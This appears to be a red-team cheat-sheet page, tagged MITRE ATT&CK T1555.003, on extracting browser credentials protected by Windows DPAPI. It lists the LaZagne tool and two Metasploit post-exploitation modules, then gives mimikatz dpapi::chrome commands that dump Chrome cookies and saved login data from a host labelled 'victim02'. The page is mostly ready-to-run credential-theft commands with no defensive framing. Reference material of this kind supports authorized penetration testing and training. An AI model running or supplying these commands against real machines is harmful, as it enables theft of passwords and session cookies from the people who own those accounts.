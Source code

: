 ```yaml
---
description: DPAPI stands for Data Protection API
coverY: 0
---
```


# 🟢 DPAPI - Applications

<details>

<summary>MITRE ATT&#x26;CK™ T1555.003</summary>



</details>

## Web browsers

<table data-full-width="true"><thead><tr><th width="117.33333333333331">Tool</th><th width="492">Description</th><th>Github</th></tr></thead><tbody><tr><td>LaZagne</td><td>The <strong>LaZagne project</strong> is an open source application used to <strong>retrieve lots of passwords</strong> stored on a local computer.</td><td><a href="https://github.com/AlessandroZ/LaZagne">https://github.com/AlessandroZ/LaZagne</a></td></tr><tr><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td></tr></tbody></table>

### Metasploit

```
post/multi/gather/firefox_creds
```

```
post/windows/gather/enum_chrome
```

### MimiKatz

```
dpapi::chrome
```

### Dump Cookies

{% code title="rfs@victim02" %}
```powershell
mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"
```
{% endcode %}

### Dump Chrome Credentials

{% code overflow="wrap" %}
```powershell
mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode %}
